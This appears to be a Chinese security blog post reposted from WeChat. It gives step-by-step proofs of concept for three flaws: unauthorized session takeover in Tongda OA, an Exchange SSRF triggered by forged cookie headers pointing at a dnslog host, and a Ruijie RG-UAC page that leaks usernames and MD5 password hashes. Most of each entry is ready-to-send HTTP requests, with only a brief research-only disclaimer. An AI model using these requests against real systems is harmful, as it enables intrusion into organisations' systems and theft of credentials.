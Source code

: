 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/IabOKaeNyAsh8V4k2cmXAw)

![](https://mmbiz.qpic.cn/mmbiz_gif/PDdTPicsmh4jRxaO6njKQpTmotU0RYdXcctBaUxlsUIcqeYicyu6icZUGxmopnOczia5txYAuM9sWF8gAF5AyEkErA/640?wx_fmt=gif)

1

通达 OA 未授权访问

![](https://mmbiz.qpic.cn/mmbiz_gif/PDdTPicsmh4jRxaO6njKQpTmotU0RYdXcPr9hsbfJdRxB2KuzlU8ab0xlTZF2wCEhvT6Ctk8HGPS0ibriap8oXByA/640?wx_fmt=gif)

漏洞类型:

![](https://mmbiz.qpic.cn/mmbiz_gif/PDdTPicsmh4jRxaO6njKQpTmotU0RYdXcPr9hsbfJdRxB2KuzlU8ab0xlTZF2wCEhvT6Ctk8HGPS0ibriap8oXByA/640?wx_fmt=gif)

**未授权访问**

![](https://mmbiz.qpic.cn/mmbiz_gif/PDdTPicsmh4jRxaO6njKQpTmotU0RYdXcPr9hsbfJdRxB2KuzlU8ab0xlTZF2wCEhvT6Ctk8HGPS0ibriap8oXByA/640?wx_fmt=gif)

漏洞利用条件:

  

**用户在线**

![](https://mmbiz.qpic.cn/mmbiz_gif/PDdTPicsmh4jRxaO6njKQpTmotU0RYdXcPr9hsbfJdRxB2KuzlU8ab0xlTZF2wCEhvT6Ctk8HGPS0ibriap8oXByA/640?wx_fmt=gif)

漏洞详情

1、先访问

http://xxx.xxx.xxx/mobile/auth_mobi.php?isAvatar=1&uid=1&P_VER=0

如果出现空白页面, 则说明已经获得权限.

![](https://mmbiz.qpic.cn/mmbiz_png/PDdTPicsmh4jRxaO6njKQpTmotU0RYdXcnX3Vq1hz9Xn0kEesBlf5tQNES83jcZoaQMfcKsfOOQRiaIaMlOEJI5A/640?wx_fmt=png)

2、在访问 http://xxx.xxx.xxx/general/ , 成功进入系统

![](https://mmbiz.qpic.cn/mmbiz_png/PDdTPicsmh4jRxaO6njKQpTmotU0RYdXciaoibwic5GB9An41Q44iauQpUJKgaPK05REVulZueKlwibMjrayAdBgxnxg/640?wx_fmt=png)

3、如果出现 RELOGIN, 则说明目前没有人在线, 需要等待有人登录的时候在尝试

![](https://mmbiz.qpic.cn/mmbiz_png/PDdTPicsmh4jRxaO6njKQpTmotU0RYdXcd2mWG8MCSxW4mBoQCIQAxQDGfibSpVkkecz2PzYiaOicgr59wajuiaicLTA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_gif/PDdTPicsmh4jRxaO6njKQpTmotU0RYdXcPr9hsbfJdRxB2KuzlU8ab0xlTZF2wCEhvT6Ctk8HGPS0ibriap8oXByA/640?wx_fmt=gif)

漏洞 POC:

![](https://mmbiz.qpic.cn/mmbiz_gif/PDdTPicsmh4jRxaO6njKQpTmotU0RYdXcPr9hsbfJdRxB2KuzlU8ab0xlTZF2wCEhvT6Ctk8HGPS0ibriap8oXByA/640?wx_fmt=gif)

```
GET http://xxx.xxx.xxx/mobile/auth_mobi.php?isAvatar=1&uid=1&P_VER=0
GET http://xxx.xxx.xxx/general/
```

2

Exchange SSRF

![](https://mmbiz.qpic.cn/mmbiz_gif/PDdTPicsmh4jRxaO6njKQpTmotU0RYdXcPr9hsbfJdRxB2KuzlU8ab0xlTZF2wCEhvT6Ctk8HGPS0ibriap8oXByA/640?wx_fmt=gif)

漏洞类型:

![](https://mmbiz.qpic.cn/mmbiz_gif/PDdTPicsmh4jRxaO6njKQpTmotU0RYdXcPr9hsbfJdRxB2KuzlU8ab0xlTZF2wCEhvT6Ctk8HGPS0ibriap8oXByA/640?wx_fmt=gif)

**SSRF**

![](https://mmbiz.qpic.cn/mmbiz_gif/PDdTPicsmh4jRxaO6njKQpTmotU0RYdXcPr9hsbfJdRxB2KuzlU8ab0xlTZF2wCEhvT6Ctk8HGPS0ibriap8oXByA/640?wx_fmt=gif)

漏洞利用条件:

![](https://mmbiz.qpic.cn/mmbiz_gif/PDdTPicsmh4jRxaO6njKQpTmotU0RYdXcPr9hsbfJdRxB2KuzlU8ab0xlTZF2wCEhvT6Ctk8HGPS0ibriap8oXByA/640?wx_fmt=gif)

**无**

![](https://mmbiz.qpic.cn/mmbiz_gif/PDdTPicsmh4jRxaO6njKQpTmotU0RYdXcPr9hsbfJdRxB2KuzlU8ab0xlTZF2wCEhvT6Ctk8HGPS0ibriap8oXByA/640?wx_fmt=gif)

漏洞详情

1、寻找目标

![](https://mmbiz.qpic.cn/mmbiz_png/PDdTPicsmh4jRxaO6njKQpTmotU0RYdXcxKrfW3NaIY95TCLiaHuOqonp8qia6ticibpHDjGEmRnnTaEzcJVoDncicQA/640?wx_fmt=png)

2、在 cookie 中插入 dnslog payload  

![](https://mmbiz.qpic.cn/mmbiz_png/PDdTPicsmh4jRxaO6njKQpTmotU0RYdXcWicADl4QZZJiba9oNIv4mYcoiaVNJghLux7BcxMF0xgquPl7m6ichL92nA/640?wx_fmt=png)

3、DNSLOG 刷新, 证明 SSRF 存在

![](https://mmbiz.qpic.cn/mmbiz_png/PDdTPicsmh4jRxaO6njKQpTmotU0RYdXc9moOX3BgNf0icPxibAiaGgf4Lma27qej6MTLdKGibHZwaCPU5iaJLzSicQTA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_gif/PDdTPicsmh4jRxaO6njKQpTmotU0RYdXcPr9hsbfJdRxB2KuzlU8ab0xlTZF2wCEhvT6Ctk8HGPS0ibriap8oXByA/640?wx_fmt=gif)

漏洞 POC:

![](https://mmbiz.qpic.cn/mmbiz_gif/PDdTPicsmh4jRxaO6njKQpTmotU0RYdXcPr9hsbfJdRxB2KuzlU8ab0xlTZF2wCEhvT6Ctk8HGPS0ibriap8oXByA/640?wx_fmt=gif)

```
GET /owa/auth/x.js HTTP/1.1
Cookie:
X-AnonResource=true; X-AnonResource-Backend=woizqq.dnslog.cn/ecp/default.flt?~3; X-BEResource=woizqq.dnslog.cn/owa/auth/logon.aspx?~3;
```

3

锐捷 RG-UAC 信息泄漏

![](https://mmbiz.qpic.cn/mmbiz_gif/PDdTPicsmh4jRxaO6njKQpTmotU0RYdXcPr9hsbfJdRxB2KuzlU8ab0xlTZF2wCEhvT6Ctk8HGPS0ibriap8oXByA/640?wx_fmt=gif)

漏洞类型:

![](https://mmbiz.qpic.cn/mmbiz_gif/PDdTPicsmh4jRxaO6njKQpTmotU0RYdXcPr9hsbfJdRxB2KuzlU8ab0xlTZF2wCEhvT6Ctk8HGPS0ibriap8oXByA/640?wx_fmt=gif)

**未授权访问, 敏感信息泄露**

![](https://mmbiz.qpic.cn/mmbiz_gif/PDdTPicsmh4jRxaO6njKQpTmotU0RYdXcPr9hsbfJdRxB2KuzlU8ab0xlTZF2wCEhvT6Ctk8HGPS0ibriap8oXByA/640?wx_fmt=gif)

漏洞利用条件:

![](https://mmbiz.qpic.cn/mmbiz_gif/PDdTPicsmh4jRxaO6njKQpTmotU0RYdXcPr9hsbfJdRxB2KuzlU8ab0xlTZF2wCEhvT6Ctk8HGPS0ibriap8oXByA/640?wx_fmt=gif)

**无**

![](https://mmbiz.qpic.cn/mmbiz_gif/PDdTPicsmh4jRxaO6njKQpTmotU0RYdXcPr9hsbfJdRxB2KuzlU8ab0xlTZF2wCEhvT6Ctk8HGPS0ibriap8oXByA/640?wx_fmt=gif)

漏洞详情

1、直接访问锐捷 - UAC 的如下链接即可获得用户名和 MD5 加密密码

https://xxx.xxx.xxx/get_dkey.php

![](https://mmbiz.qpic.cn/mmbiz_png/PDdTPicsmh4jRxaO6njKQpTmotU0RYdXcZY4D2h7o3ZxtEa5JonoPOicnUcTa5U25fofOUMzObhsmicsoFTcyYjMg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_gif/PDdTPicsmh4jRxaO6njKQpTmotU0RYdXcPr9hsbfJdRxB2KuzlU8ab0xlTZF2wCEhvT6Ctk8HGPS0ibriap8oXByA/640?wx_fmt=gif)

漏洞 POC:

![](https://mmbiz.qpic.cn/mmbiz_gif/PDdTPicsmh4jRxaO6njKQpTmotU0RYdXcPr9hsbfJdRxB2KuzlU8ab0xlTZF2wCEhvT6Ctk8HGPS0ibriap8oXByA/640?wx_fmt=gif)

```
GET https://xxx.xxx.xxx/get_dkey.php
```

![](https://mmbiz.qpic.cn/mmbiz_png/JGvzrR1zc4TE1OMlzTiau6mjXv62SiaK7dkWsS6HCshficjNbyAiclEcMfcGV4E7kSicQ7icEiawJYvXXbMyNKjKLwPjQ/640?wx_fmt=png)

END

**注：此文章只用于漏洞研究，切勿用于违法用途。因滥用产生的一切后果与本公众号无关。**

**参考文章:**

**https://mp.weixin.qq.com/s/LJRI04VViL4hbt6dbmGHAw**

**https://paper.seebug.org/1492/**

**https://twitter.com/zhzyker/status/1368572200194740232/photo/1**

****https://mp.weixin.qq.com/s?__biz=Mzg3NDU2MTg0Ng==&mid=2247483972&idx=1&sn=b51678c6206a533330b0279454335065****

扫码关注更多精彩

![](https://mmbiz.qpic.cn/mmbiz_png/PDdTPicsmh4iaxUx2M4LXBJhBNfzLmtxg1mCib9dkVB5y1C6qmicKolbLfGWxEicYWjP6VSUx296cUWj3dBrqtDfb6g/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/PDdTPicsmh4iaxUx2M4LXBJhBNfzLmtxg1ibz8zRr774rnu7TERPQHpcV0icbu9fCs0mRjWZuicS2kmLXFHkCKYicpUA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/PDdTPicsmh4iaxUx2M4LXBJhBNfzLmtxg1gibj2XWCGAOvCNqttdEicsvUCVPj3NXzZuaXyXqSIVSTeGwKuGzhfLmw/640?wx_fmt=png)